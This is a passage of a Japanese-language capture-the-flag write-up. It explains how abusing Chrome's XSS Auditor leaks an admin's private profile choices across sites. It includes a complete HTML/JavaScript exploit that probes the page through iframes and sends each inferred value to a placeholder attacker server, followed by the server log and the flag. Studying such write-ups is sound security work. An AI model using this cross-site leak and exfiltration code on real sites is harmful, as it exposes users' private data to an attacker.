この問題で例を挙げてみましょう。好きな食べ物が先程のように設定されている場合、`/profile?onchange="grapes.checked=false;"` にアクセスすると何も起きませんが、`/profile?onchange="grapes.checked=true;"` にアクセスすると GET パラメータがそのまま HTML に出力されているものと XSS Auditor が判断してしまい、ページの読み込みを遮断してしまいます。これを利用して、ページの読み込みが遮断されるかされないかを何らかの方法で外部から観測することで、情報を読み取ることができます。

では、好きな食べ物を読み取るスクリプトを書いてみましょう。[35C3 CTF の filemanager の write-up](https://gist.github.com/l4wio/3a6e9a7aea5acd7a215cdc8a8558d176) を参考に、`iframe` で読み込んだ後、URL に `#` を足して `onload` が呼ばれるかどうかで XSS Auditor によってアクセスが遮断されたかどうかを確認します。

```html
<!doctype html>
<html lang="en">
<head>
  <meta charset="utf-8">
  <title>exp</title>
</head>
<body>
  <script>
  const fruits = [
    "grapes", "melon", "watermelon", "tangerine", "lemon", "banana", "pineapple", "pear", "peach", "cherries", "strawberry", "tomato", "coconut", "mango", "avocado", "aubergine", "potato", "carrot", "broccoli", "mushroom"
  ];
  for (let fruit of fruits) {
    let iframe = document.createElement('iframe');
    iframe.src = 'http://(問題サーバ)/profile?' + encodeURIComponent(`onchange="${fruit}.checked=true`);
    iframe.onload = () => { 
      iframe.onload = () => {
        (new Image).src = 'http://(攻撃者のサーバ)?' + fruit + '=true';
      };
      iframe.src += '#';
    };
    document.body.append(iframe);
  }
  </script>
</body>
</html>
```

`php -S 0.0.0.0:8080` で Web サーバを立ち上げます。プロフィールを `<iframe src='http://(攻撃者のサーバ):8080/'></iframe>` に変更し、`/report` から自作自演で報告します。しばらくすると、以下のように admin の好きな食べ物がわかりました。

```
[Sun May  5 01:52:31 2019] (問題サーバ):50188 [200]: /?grapes=true
[Sun May  5 01:52:31 2019] (問題サーバ):50190 [200]: /?tangerine=true
[Sun May  5 01:52:31 2019] (問題サーバ):50192 [200]: /?lemon=true
[Sun May  5 01:52:31 2019] (問題サーバ):50194 [200]: /?banana=true
[Sun May  5 01:52:31 2019] (問題サーバ):50196 [200]: /?pineapple=true
[Sun May  5 01:52:31 2019] (問題サーバ):50198 [200]: /?cherries=true
[Sun May  5 01:52:31 2019] (問題サーバ):50200 [200]: /?peach=true
[Sun May  5 01:52:31 2019] (問題サーバ):50202 [200]: /?tomato=true
[Sun May  5 01:52:31 2019] (問題サーバ):50204 [200]: /?strawberry=true
[Sun May  5 01:52:31 2019] (問題サーバ):50206 [200]: /?coconut=true
[Sun May  5 01:52:31 2019] (問題サーバ):50210 [200]: /?mango=true
[Sun May  5 01:52:31 2019] (問題サーバ):50208 [200]: /?aubergine=true
[Sun May  5 01:52:31 2019] (問題サーバ):50212 [200]: /?carrot=true
[Sun May  5 01:52:31 2019] (問題サーバ):50214 [200]: /?mushroom=true
```

これを `/recover` で admin のユーザ名と一緒に入力するとフラグが得られました。

```
TSGCTF{x5_l34k5_4R3_4M421ng}
```